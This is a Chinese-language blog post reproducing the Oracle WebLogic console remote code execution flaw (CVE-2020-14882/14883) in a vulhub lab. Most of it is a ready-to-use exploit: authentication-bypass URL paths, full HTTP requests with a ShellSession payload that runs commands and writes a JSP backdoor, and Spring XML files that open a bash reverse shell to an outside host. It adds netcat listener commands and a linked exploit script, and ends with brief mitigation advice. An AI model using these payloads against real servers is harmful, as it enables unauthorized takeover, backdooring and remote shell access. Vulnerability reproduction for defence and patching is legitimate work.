# Weblogic Console HTTP 协议远程代码执行漏洞复现（CVE-2020-14882） - 渗透测试中心 - 博客园

> 原文：[`www.cnblogs.com/backlion/p/13951858.html`](https://www.cnblogs.com/backlion/p/13951858.html)

### 0x01 漏洞描述

近日，Oracle WebLogic Server 远程代码执行漏洞 （CVE-2020-14882）POC 被公开,未经身份验证的远程攻击者可能通过构造特殊的 HTTP GET 请求，利用该漏洞在受影响的 WebLogic Server 上执行任意代码。它们均存在于 WebLogic 的 Console 控制台组件中。此组件为 WebLogic 全版本默认自带组件，且该漏洞通过 HTTP 协议进行利用。将 CVE-2020-14882 和 CVE-2020-14883 进行组合利用后，远程且未经授权的攻击者可以直接在服务端执行任意代码，获取系统权限

### 0x02  漏洞影响

Oracle WebLogic Server，版本 10.3.6.0，12.1.3.0，12.2.1.3，12.2.1.4，14.1.1.0

### 0x03 漏洞复现：

**一、环境配置**

1.本次漏洞复现采用 vulhub 的环境，weblocig 的版本为 12.2.1.3.0,该版本存在漏洞

https://github.com/vulhub/vulhub/tree/173136b310693d50cac183c6218e64c861e2aaf5/weblogic/CVE-2020-14882

2.复现漏洞环境配置

  git clone  [`github.com/vulhub/vulhub.git`](https://github.com/vulhub/vulhub.git)


cd  vulhub/

cd  weblogic/


```
curl -s https://bootstrap.pypa.io/get-pip.py | python3
```


```
service docker start
```

```
pip install docker-compose
```

docker-compose  up -d 访问 http://45.77.248.227:7001/console,即可部署 weblogic 环境**二、绕过后台登录**1.权限漏洞绕过，主要的 POC 如下：/console/images/%252E%252E%252Fconsole.portal/console/css/%25%32%65%25%32%65%25%32%66console.portal

大写换成小写可绕过补丁：

/console/css/%252e%252e%252fconsole.portal

2.weblocig12 绕过后台登录[`45.77.248.227:7001/console/images/%252E%252E%252Fconsole.portal`](http://45.77.248.227:7001/console/images/%252E%252E%252Fconsole.portal) [`45.77.248.227:7001//console/css/%25%32%65%25%32%65%25%32%66console.portal`](http://45.77.248.227:7001//console/css/%25%32%65%25%32%65%25%32%66console.portal) [`45.77.248.227:7001/console/css/%252e%252e%252fconsole.portal`](http://45.77.248.227:7001/console/css/%252e%252e%252fconsole.portal)  （小写绕过）**三、脚本化利用**脚本地址：[`github.com/backlion/CVE-2020-14882_ALL`](https://github.com/backlion/CVE-2020-14882_ALL)1.命令回显 python3 CVE-2020-14882_ALL.py -u http://45.77.248.227:7001/  -c  "whomai"python3 CVE-2020-14882_ALL.py -u http://45.77.248.227:7001/  -c  "ls"2.外置 xml 文件无回显命令执行

Linux 反弹 shell 为例，编辑好 poc.xml 文件

```
<beans   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
```

```
  <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
```

```
    <constructor-arg>
```

```
      <list>
```

```
        <value>/bin/bash</value>
```

```
        <value>-c</value>
```

```
      <value><![CDATA[bash -i >& /dev/tcp/45.77.248.227/2233  0>&1]]></value>
```

```
      </list>
```

```
    </constructor-arg>
```

```
  </bean>
```

```
</beans>
```

```
注意：上面反弹的地址是服务器 IP 地址
```

将 poc.xml 上传到服务器上，然后 python3 开启 http server web通过脚本执行命令 python3 CVE-2020-14882_ALL.py -u [`45.77.248.227:7001/   -x`](http://45.77.248.227:7001/   -x)  http://45.77.248.227:8000/poc.xml服务器上用 nc 监听端口 nc  -llvp  2233**四、手工提交利用方式一**1.通过提交如下 poc，可远程执行命令，这里最好是通过上面的绕过后台，然后通过 burpsuit 抓包，修改为如下的 POC 即可。GET /console/css/%25%32%65%25%32%65%25%32%66consolejndi.portal?test_handle=com.tangosol.coherence.mvel2.sh.ShellSession('weblogic.work.ExecuteThread currentThread = (weblogic.work.ExecuteThread)Thread.currentThread(); weblogic.work.WorkAdapter adapter = currentThread.getCurrentWork(); java.lang.reflect.Field field = adapter.getClass().getDeclaredField("connectionHandler");field.setAccessible(true);Object obj = field.get(adapter);weblogic.servlet.internal.ServletRequestImpl req = (weblogic.servlet.internal.ServletRequestImpl)obj.getClass().getMethod("getServletRequest").invoke(obj); String cmd = req.getHeader("cmd");String[] cmds = System.getProperty("os.name").toLowerCase().contains("window") ? new String[]{"cmd.exe", "/c", cmd} : new String[]{"/bin/sh", "-c", cmd};if(cmd != null ){ String result = new java.util.Scanner(new java.lang.ProcessBuilder(cmds).start().getInputStream()).useDelimiter("\\A").next(); weblogic.servlet.internal.ServletResponseImpl res = (weblogic.servlet.internal.ServletResponseImpl)req.getClass().getMethod("getResponse").invoke(req);res.getServletOutputStream().writeStream(new weblogic.xml.util.StringInputStream(result));res.getServletOutputStream().flush();} currentThread.interrupt();')  HTTP/1.1Host: 45.77.248.227:7001User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.183 Safari/537.36Accept: */*Referer: http://45.77.248.227:7001//console/images/%252E%252E%252Fconsole.portal?_nfpb=false&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession(%22java.lang.Runtime.getRuntime().exec(%27calc.exe%27);%22);Accept-Encoding: gzip, deflatecmd:whoami && pwd Accept-Language: zh-CN,zh;q=0.9Cookie: ADMINCONSOLESESSION=8guoLM33tVnPrUomY4v8yi8C9bd-Glfq8JOrW2ntH-gJYHZ-oGgQ!1524101341Connection: close2.当前页面的路径为：/u01/oracle/user_projects/domains/base_domain3.那么可以在该目录下写入后门文件：/u01/oracle/wlserver/server/lib/consoleapp/webapp/images4.通过提交如下 poc 即可写入后门 GET /console/css/%25%32%65%25%32%65%25%32%66consolejndi.portal?test_handle=com.tangosol.coherence.mvel2.sh.ShellSession('weblogic.work.ExecuteThread currentThread = (weblogic.work.ExecuteThread)Thread.currentThread(); weblogic.work.WorkAdapter adapter = currentThread.getCurrentWork(); java.lang.reflect.Field field = adapter.getClass().getDeclaredField("connectionHandler");field.setAccessible(true);Object obj = field.get(adapter);weblogic.servlet.internal.ServletRequestImpl req = (weblogic.servlet.internal.ServletRequestImpl)obj.getClass().getMethod("getServletRequest").invoke(obj); String cmd = req.getHeader("cmd");String[] cmds = System.getProperty("os.name").toLowerCase().contains("window") ? new String[]{"cmd.exe", "/c", cmd} : new String[]{"/bin/sh", "-c", cmd};if(cmd != null ){ String result = new java.util.Scanner(new java.lang.ProcessBuilder(cmds).start().getInputStream()).useDelimiter("\\A").next(); weblogic.servlet.internal.ServletResponseImpl res = (weblogic.servlet.internal.ServletResponseImpl)req.getClass().getMethod("getResponse").invoke(req);res.getServletOutputStream().writeStream(new weblogic.xml.util.StringInputStream(result));res.getServletOutputStream().flush();} currentThread.interrupt();')  HTTP/1.1Host: 45.77.248.227:7001User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.183 Safari/537.36Accept: */*Referer: http://45.77.248.227:7001//console/images/%252E%252E%252Fconsole.portal?_nfpb=false&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession(%22java.lang.Runtime.getRuntime().exec(%27calc.exe%27);%22);Accept-Encoding: gzip, deflatecmd:whoami && pwd & echo 'this is  a test!'  > /u01/oracle/wlserver/server/lib/consoleapp/webapp/images/test.jspAccept-Language: zh-CN,zh;q=0.9Cookie: ADMINCONSOLESESSION=8guoLM33tVnPrUomY4v8yi8C9bd-Glfq8JOrW2ntH-gJYHZ-oGgQ!1524101341Connection: close5.可以看到 weblogic 虚拟目录下写入了后门文件6.访问如下地址，即可获取后门 http://45.77.248.227:7001/console/images/test.jsp

**五、手工利用方式二**1、linux 下通过远程访问 xml 文件执行反弹 shell

首先，我们需要构造一个 XML 文件，并将其保存在 Weblogic 可以访问到的服务器上，如 http://45.77.248.227:8000/poc.xml：

```
<?xml version="1.0" encoding="UTF-8" ?>
<beansxmlns="http://www.springframework.org/schema/beans"xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <beanid="pb"class="java.lang.ProcessBuilder"init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[bash -i >& /dev/tcp/45.77.248.227/2233  0>&1]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

通过 FileSystemXmlApplicationContext()函数远程加载 xml，这里访问如下地址：

```
http://45.77.248.227:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://45.77.248.227:8000/poc.xml")
```

服务监听 nc 反弹 nc -lvvp 2233或者通过 ClassPathXmlApplicationContext()函数远程加载 xmlhttp://45.77.248.227:7001/console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=HomePage1&handle=com.bea.core.repackaged.springframework.context.support.ClassPathXmlApplicationContext("http://45.77.248.227:8000/poc.xml")服务监听 nc 反弹 nc -lvvp 22332、windows 下通过 FileSystemXmlApplicationContext()函数写入后门文件（weblocig_12 版本）

 尝试通过 FileSystemXmlApplicationContext()加载并执行远端 xml 文件：

http://192.168.3.136:7001/console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://192.168.3.1/poc.xml")

poc.xml 如下:

<beans xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">

  <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">

    <constructor-arg>

      <list>

        <value>cmd</value>

        <value>/c</value>

        <value><![CDATA[../../../wlserver/server/lib/consoleapp/webapp/images/xxx.jsp]]></value>

      </list>

    </constructor-arg>

  </bean>

</beans>

通过此方法，windows 可以往 images 路径下写文件，写入路径为：

../../../wlserver/server/lib/consoleapp/webapp/images/xxx.jsp

访问 http://192.168.3.136:7001/console/images/xxx.jsp


写入成功~~

3、weblogic 10 写入后门因为 com.tangosol.coherence.mvel2.sh.ShellSession 这个 gadget，只存在于 weblogic 12，weblogic10 并没有这个 gadget（没有包），所以无法使用需要使用 com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext 来执行，所有 Weblogic 版本均适用。

http://ip:7001/console/css/%2e%2e%2fconsole.portal?_nfpb=true&_pageLabel=HomePage1&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://server ip :8000/poc.xml")

### 0X04 漏洞修复

尝试复现的时候发现/console/consolejndi.portal 路径也可以触发，所以

至少禁止以下路径的访问。或者直接禁止访问 console。

*   /console/console.portal
*   /console/consolejndi.portal

或者通过官方下载补丁，这里需要正版授权才能下载升级官方补丁：https://www.oracle.com/security-alerts/cpuoct2020.html